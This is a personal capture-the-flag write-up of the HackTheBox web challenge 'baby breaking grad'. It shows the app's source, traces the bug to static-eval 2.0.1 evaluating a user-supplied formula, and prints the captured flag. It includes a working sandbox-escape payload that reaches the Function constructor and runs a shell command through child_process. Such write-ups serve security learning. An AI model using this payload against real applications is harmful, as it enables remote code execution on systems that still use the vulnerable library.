




---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - RCE
  - static-eval
---
>[!quote]
> We corrected the math in our physics teacher's paper and now he is failing us out of spite for making a fool out of him in the university's research symposium, now we can't graduate, unless we can do something about it...


# Set up

-

# Information Gathering




Files:

```
.
├── build_docker.sh
├── challenge
│   ├── flag
│   ├── helpers
│   │   └── StudentHelper.js
│   ├── index.js
│   ├── package.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── images
│   │   │   ├── favicon.png
│   │   │   └── koulis.gif
│   │   └── js
│   │       ├── koulis.js
│   │       └── main.js
│   ├── views
│   │   └── index.html
│   └── yarn.lock
├── config
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
└── web_baby_breaking_grad.zip
```

Passed with:

```json
{"name":"0xbro",
"formula":"[0.20 * assignment + 0.25 * exam + 0.25 * paper]",
"exam":"99",
"paper":"99",
"assignment":"99"}
```

**Index.js**

```jsx
const randomize         = require('randomatic');
const path              = require('path');
const express           = require('express');
const router            = express.Router();
const StudentHelper     = require('../helpers/StudentHelper');

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});

module.exports = router;
```

**StudentHelper.js**

```jsx
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        console.log("isDumb: " + name.includes('Baker') || name.includes('Purvis'));
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({ exam, paper, assignment }, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment });
        console.log("ast: " + ast);
        console.log("weight: " + weight);
        return parseFloat(weight) >= parseFloat(10.5);
    }
};
```

# The Bug

- `evaluate(ast, { exam, paper, assignment });` --> incorporates attacker-controllable data
- **static-eval/2.0.1** has [https://snyk.io/test/npm/static-eval/2.0.1](https://snyk.io/test/npm/static-eval/2.0.1)
- [https://github.com/advisories/GHSA-8v27-2fg9-7h62](https://github.com/advisories/GHSA-8v27-2fg9-7h62)

# Exploitation
- [https://github.com/browserify/static-eval/commit/0bcd9dc93f42898dfd832a10915a4544e11b8f13](https://github.com/browserify/static-eval/commit/0bcd9dc93f42898dfd832a10915a4544e11b8f13)
- [https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html](https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html)

```jsx
`(function (y){return ''[y?y:'length'][y]})('constructor')('throw new TypeError(process.mainModule.require(\"child_process\").execSync(\"cat flag*\").toString())')()`
```



# Flag

 >[!success]
 >`HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v'eval!!}`



